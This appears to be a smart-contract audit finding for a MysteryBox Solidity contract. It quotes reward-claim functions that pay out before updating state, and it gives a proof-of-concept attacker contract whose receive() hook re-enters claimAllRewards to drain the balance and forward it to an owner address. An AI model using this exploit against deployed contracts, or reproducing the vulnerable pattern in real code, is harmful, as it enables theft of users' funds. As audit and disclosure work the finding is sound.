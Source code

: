 ```javascript
    function claimAllRewards() public {
        uint256 totalValue = 0;
        for (uint256 i = 0; i < rewardsOwned[msg.sender].length; i++) {
            totalValue += rewardsOwned[msg.sender][i].value;
        }
        require(totalValue > 0, "No rewards to claim"); //checks

        (bool success,) = payable(msg.sender).call{value: totalValue}(""); // interaction
        require(success, "Transfer failed");

        delete rewardsOwned[msg.sender]; // effect
       
```

```javascript
    function claimSingleReward(uint256 _index) public {
        require(_index <= rewardsOwned[msg.sender].length, "Invalid index");
        uint256 value = rewardsOwned[msg.sender][_index].value;
        require(value > 0, "No reward to claim"); //Checks

        (bool success,) = payable(msg.sender).call{value: value}("");
        require(success, "Transfer failed"); //Interaction.

        delete rewardsOwned[msg.sender][_index]; //Effect
    }
```

### Vulnerability Details
Contracts with this flaw gives room for an attacker to reenter and drain assets.

**POC**
Add the attacker contract in existing src file:
```javascript 

// SPDX-License-Identifier: DWTFUW
pragma solidity ^0.8.0;
import "./MysteryBox.sol";
contract AttackerContract {
    MysteryBox public mysteryBox;
    address public OWNER;
    
    constructor(address _mysteryBoxAddress,  address _owner) {
        mysteryBox = MysteryBox(_mysteryBoxAddress);
        OWNER = _owner;
    }

    function buyBox() public payable {
       mysteryBox.buyBox{value: 0.1 ether}();
    }
    
    function attack() public payable {
        mysteryBox.openBox();
        mysteryBox.claimAllRewards();
    }
    
    receive() external payable {
        if (address(mysteryBox).balance >= 0.1 ether) {
            mysteryBox.claimAllRewards();
        }
    }
    function claim() external {
     (bool sent,)= OWNER.call{value: address(this).balance}("");
     require(sent);
    }
```

[//]: # (contest-details-open)
